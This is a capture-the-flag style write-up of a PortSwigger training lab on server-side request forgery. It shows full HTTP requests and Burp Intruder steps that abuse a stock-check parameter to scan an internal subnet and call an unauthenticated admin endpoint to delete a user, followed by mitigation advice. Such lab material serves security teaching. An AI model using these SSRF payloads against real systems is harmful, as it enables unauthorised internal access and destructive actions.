

# Basic SSRF Against Another Back-End System – PortSwigger Lab Write-up

## Lab Info

- **Lab Name:** Basic SSRF against another back-end system  
- **Difficulty:** Apprentice  
- **Goal:** Delete user `carlos` by scanning the internal `192.168.0.x` network for an admin interface on port `8080`  
- **Link:** [PortSwigger Web Security Academy](https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system)

---

## Summary of the Vulnerability

The website has a **stock check feature** that fetches data from an internal system.  
The `stockApi` parameter is vulnerable to **Server-Side Request Forgery (SSRF)**.

An **admin interface** is hidden on an internal IP address (`192.168.0.x:8080`) that you cannot reach directly from the internet.  
By scanning the internal network using the vulnerable `stockApi` parameter, you can find the admin panel and delete user `carlos`.

---

## Tools Used

- Burp Suite (Community or Professional) – **Intruder** module required
- PortSwigger Lab environment

---

## Step-by-Step Solution

### Step 1: Capture the vulnerable request

1. Open the lab in your browser.
2. Go to any product page (e.g., a jacket or gift).
3. Click the **"Check stock"** button.
4. Intercept the request using **Burp Suite**.

The request will look like:

```http
POST /product/stock HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 52

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1
```

---

### Step 2: Send to Burp Intruder

1. Right-click the request → **Send to Intruder**.
2. Go to the **Positions** tab.
3. Clear any existing payload markers (click "Clear §").
4. Change the `stockApi` parameter to:
   ```
   stockApi=http://192.168.0.1:8080/admin
   ```
5. Highlight the **last octet** of the IP address (the number `1`) and click **"Add §"**:
   ```
   stockApi=http://192.168.0.§1§:8080/admin
   ```

---

### Step 3: Configure the payload

1. Go to the **Payloads** tab.
2. **Payload type:** Numbers
3. **From:** `1`
4. **To:** `255`
5. **Step:** `1`
6. Click **"Start attack"**.

---

### Step 4: Find the admin interface

In the Intruder results window:

1. Click on the **Status** column header to sort by status code (ascending).
2. Look for a single entry with **Status: 200**.
3. That request contains the admin interface.

Click on that row to view the request and response.

---

### Step 5: Identify the delete URL

In the response HTML, look for a link like:

```html
<a href="/admin/delete?username=carlos">Delete</a>
```

Or the full URL may be:
```
http://192.168.0.X:8080/admin/delete?username=carlos
```
(where `X` is the IP you found, e.g., `68`)

---

### Step 6: Delete carlos

1. Right-click the successful request in Intruder → **Send to Repeater**.
2. Change the `stockApi` parameter to the **delete URL**:
   ```
   stockApi=http://192.168.0.X:8080/admin/delete?username=carlos
   ```
   (Replace `X` with the actual IP number you discovered.)
3. Click **"Send"**.

---

### Step 7: Verify the lab is solved

The lab should immediately mark as **"SOLVED"**.  
You can also check the lab homepage – user `carlos` will no longer exist.

---

## Final Exploit Request Example

```http
POST /product/stock HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=YOUR-SESSION
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

stockApi=http://192.168.0.68:8080/admin/delete?username=carlos
```

(Replace `68` with the IP you found from the scan.)

---

## Why This Worked

| Concept | Explanation |
|---------|-------------|
| **SSRF** | The server blindly fetches whatever URL is in `stockApi`. |
| **Internal network scan** | You used Burp Intruder to scan all IPs in `192.168.0.1` through `192.168.0.255`. |
| **Hidden admin interface** | The admin panel is on a private IP and port `8080` – unreachable from the internet. |
| **Weak internal security** | The internal admin interface has no authentication (trusts internal traffic). |
| **Delete endpoint** | Once found, you reuse the delete link to remove `carlos`. |

---

## Mitigation (How to Fix This)

- **Allowlist** allowed URLs/IPs for `stockApi` – only permit trusted external domains.
- **Block** private IP ranges (`192.168.x.x`, `10.x.x.x`, `172.16.x.x`) and `localhost`.
- **Require authentication** on all admin interfaces – even internal ones.
- **Use network segmentation** and firewalls to limit what the application server can reach.
- **Do not return** full internal responses to the user (return generic errors).

---

## Tags

`#SSRF` `#PortSwigger` `#BurpSuite` `#Intruder` `#InternalNetworkScan` `#Apprentice` `#BugBounty`

---

